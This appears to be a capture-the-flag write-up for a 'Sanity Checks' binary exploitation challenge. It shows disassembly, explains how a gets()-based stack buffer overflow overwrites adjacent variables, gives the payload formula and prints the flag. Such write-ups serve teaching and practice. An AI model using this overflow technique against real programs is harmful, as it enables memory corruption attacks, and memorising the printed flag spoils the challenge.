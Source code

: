# Sanity Checks

### Description

![](Description.png)

## Solution

When I read the code, I knew, that you basically had to overflow to the other variables. It is also a relatively standard binary exploitation exercise, similar to Stack 1 as in this writeup https://medium.com/@swapnilddeshpande/protostar-stack0-stack3-writeup-37b7941252c2.


I need to find the memory location of all the variables. I just used `objdump`
```
4011b5:	48 8b 05 e4 2e 00 00 	mov    rax,QWORD PTR [rip+0x2ee4]        # 4040a0 <stderr@@GLIBC_2.2.5>
4011bc:	be 00 00 00 00       	mov    esi,0x0
4011c1:	48 89 c7             	mov    rdi,rax
4011c4:	e8 77 fe ff ff       	call   401040 <setbuf@plt>
4011c9:	c7 45 fc 00 00 00 00 	mov    DWORD PTR [rbp-0x4],0x0
4011d0:	c7 45 f8 00 00 00 00 	mov    DWORD PTR [rbp-0x8],0x0
4011d7:	c7 45 f4 00 00 00 00 	mov    DWORD PTR [rbp-0xc],0x0
4011de:	c7 45 f0 00 00 00 00 	mov    DWORD PTR [rbp-0x10],0x0
4011e5:	c7 45 ec 00 00 00 00 	mov    DWORD PTR [rbp-0x14],0x0
4011ec:	48 8d 3d 15 0e 00 00 	lea    rdi,[rip+0xe15]        # 402008 <_IO_stdin_used+0x8>
4011f3:	b8 00 00 00 00       	mov    eax,0x0
4011f8:	e8 53 fe ff ff       	call   401050 <printf@plt>
4011fd:	48 8d 45 a0          	lea    rax,[rbp-0x60]
401201:	48 89 c7             	mov    rdi,rax
401204:	b8 00 00 00 00       	mov    eax,0x0
401209:	e8 72 fe ff ff       	call   401080 <gets@plt>
40120e:	48 8d 45 a0          	lea    rax,[rbp-0x60]
401212:	48 8d 35 07 0e 00 00 	lea    rsi,[rip+0xe07]        # 402020 <_IO_stdin_used+0x20>
401219:	48 89 c7             	mov    rdi,rax
```
The `password` is in `rbp-0x60`, while the other variables are `[rbp-0x4]` onwards

Some interesting tricks
1. You have to put a null byte at the end of the `password123` string. This is to ensure that the program only reads `password123`, and not the garbage behind it.

Took me 24:06 min Man am I slow.

### Further Explanation of the Payload

The first part of the payload is payload = password.encode() + NULL_BYTE + (b"A" * (64-len(password)-1 + 0x60-0x14-64)) 

Initially 
1. I put in the password in the payload
2. After that I put a null byte. This signifies the end of the string, such that when the program accesses the password variable, it only gets that value we gave in step 1
3."A" characters are padded to reach the next location

The amount of padding is required can be calculated like this
1. The first 64-len(password)-1 characters of "A" fills up the remaining of the password char array
2.  We are padding from the end of the password array to the start of the next variable (which is when_i_learned_the_truth) 
 - The password is stored from [rbp-0x60] while the next variable is stored in [rbp-0x14] (check the disassembly if you are not sure) , hence the offset from the start of the password to the start of the next variable is 0x60-0x14
- However, from step 1, we already filled up 64 characters from the start of the char array. Hence from the end of the password array to the start of the next variable is just 0x60-0x14-64

After the first part of the payload with the padding we can then add the variables
The variables are added in reverse order compared to how they are stored in the code, 
mainly because they are stored in reverse order on the stack according to the binary

![Visualisation of the stack and payload if any](StackVis.jpg)

## Flag
`actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}`
